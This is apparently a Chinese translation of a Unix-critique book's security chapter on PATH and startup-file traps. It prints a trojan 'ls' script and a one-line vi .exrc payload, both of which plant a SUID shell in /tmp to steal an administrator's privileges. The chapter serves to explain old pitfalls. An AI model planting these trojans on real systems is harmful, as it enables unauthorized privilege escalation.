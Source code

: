 事实上，“互联网蠕虫”（后面章节会讨论）就是通过运行网络服务器，并说服它们生成子 shell 进入毫无防备的计算机。为什么这些网络服务器拥有生成子 shell 的操作系统权限，而它们在正常运行时根本不需要生成子 shell？因为每个 Unix 程序都有这个能力；没有办法拒绝某程序（或者某用户）生成子 shell 的权限。

### PATH 之踵

Unix 需要找到与给定命令名称对应的可执行文件。为此，Unix 会查看用户的 `PATH` 变量中列出的目录。例如，如果你的 `PATH` 环境变量是 `:/bin:/usr/bin:/etc:/usr/local/bin:`，那么当你输入命令 `snarf` 时，Unix 会按顺序自动在 `/bin`、`/usr/bin`、`/etc` 和 `/usr/local/bin` 目录中搜索名为 `snarf` 的程序。

到目前为止，一切正常。然而，像下面这样的 `PATH` 变量设置是常见的灾难：

```ini
PATH=:.:/bin:/usr/bin:/usr/local/bin:
```

将 `.` —— 当前目录 —— 作为第一个元素，指示 Unix 在搜索命令时先搜索当前目录，然后再搜索 `/bin` 等目录。虽然这在开发新程序时非常方便，但也是一种强大的安全破坏技巧，可以为其他用户布下陷阱。

假设你是某所垃圾大学里的学生，学校不允许你拥有超级用户权限。你可以在你的家目录里创建名为 `ls` 的文件 [^1]，内容如下：

```sh
#!/bin/sh  # 启动 shell。
/bin/cp /bin/sh /tmp/.sh1  # 将 shell 程序复制到 /tmp。
/etc/chmod 4755 /tmp/.sh1  # 赋予它调用 ls 命令者的权限。
/bin/rm \$0  # 删除该脚本自身。
exec /bin/ls \$1 \$2 \$3 \$4  # 运行真正的 ls 命令。
```

接下来，你去找系统管理员，告诉他你在家目录里找不到某个文件。如果管理员头脑简单，他会在终端输入以下两行命令：

```sh
% cd <你的家目录>
% ls
```

此时，你已经“抓住”了他，他却浑然不觉。当他输入 `ls` 命令时，运行的不是 `/bin/ls`，而是你家目录中特意创建的 `ls` 程序。这个恶意的 `ls` 程序会在 `/tmp` 目录放置一款具有 SUID 权限的 shell 程序，当运行时，该 shell 会继承管理员的所有权限。

虽然管理员会觉得你很傻，但实际上他才是那个“傻子”。你可以随意运行新建的 `/tmp/.sh1`，无需知道他的密码或登录身份，就能读取、删除或运行他的任何文件。如果管理员有访问 SUID root shell 程序（通常名为 `doit`），你也同样拥有。恭喜你，整个系统完全掌握在你手中。

[^1]: 你自己可别这么试！

### 启动陷阱

当一款复杂的 Unix 程序启动时，它会从用户的家目录/当前目录读取配置文件，以设置初始和默认参数，从而根据用户的需求定制程序。不幸的是，启动文件可能被其他用户创建并留在那里，代替他们为你执行命令。

一处非常著名的启动陷阱针对的是 vi，这个简单、快速、面向屏幕的编辑器深受许多系统管理员喜爱。可惜的是，vi 不能同时编辑多个文件，因此系统管理员经常从当前目录启动 vi，而不是从家目录启动。

问题就在这。

启动时，vi 会在当前目录中搜索一个名为 `.exrc` 的文件，这是 vi 的启动文件。想偷点权限吗？就在某个目录放一个名为 `.exrc` 的文件，内容如下：

```ini
!(cp /bin/sh /tmp/.s$$;chmod 4755 /tmp/.s$$)&
```

然后等待一个毫无防备的系统管理员从该目录调用 vi。当她这样做时，屏幕底部会短暂闪现一个感叹号，而你将在 `/tmp` 目录下得到一个 SUID shell，和之前的攻击一样。


### 可信路径与特洛伊木马


[^2]: Paul Rubin 写道：“如果你不小心使用了某些版本的 ed 编辑器中的‘x’命令（加密文件），而你本以为是在使用其他版本 ed 中的‘x’命令（调用迷你屏幕编辑器），这程序就能救你一命。当然，你直到为时已晚才发现。你随机敲击一堆键，想弄明白系统为什么似乎卡住了（你没意识到系统关闭了回显，让你可以输入秘密加密密钥），但敲完回车后，编辑器又正常保存你的工作，于是你耸耸肩继续干活……然后很久以后你写出文件并退出时，才发现文件是加密写出的——而且你根本不可能重新输入当时无意间乱敲的随机密码。我见过有人花好几个小时试图以第一次的敲击方式精准敲键盘，因为这是他们唯一能找回文件的希望。这些人根本没想到 `crypt` 加密是如此容易被破解。”